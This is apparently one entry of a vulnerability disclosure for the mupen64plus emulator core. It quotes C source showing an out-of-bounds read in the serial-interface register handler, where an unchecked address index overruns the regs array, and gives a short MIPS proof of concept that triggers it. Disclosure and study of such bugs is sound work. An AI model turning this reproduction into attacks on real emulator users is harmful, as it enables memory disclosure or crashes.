

### BUG7: si_reg overflow

#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/si/si_controller.c#L121
void read_si_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct si_controller* si = (struct si_controller*)opaque;
    uint32_t reg = si_reg(address);

    *value = si->regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/si/si_controller.h#L73
static osal_inline uint32_t si_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/si/si_controller.h#L61
struct si_controller
{
    uint32_t regs[SI_REGS_COUNT];
    unsigned char dma_dir;

    unsigned int dma_duration;

    struct mi_controller* mi;
    struct pif* pif;
    struct ri_controller* ri;
};
```

#### Reproduction

- poc.asm

```asm
0000000000000000 <_start>:
   0:   3c048480        lui     a0,0x8480
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```


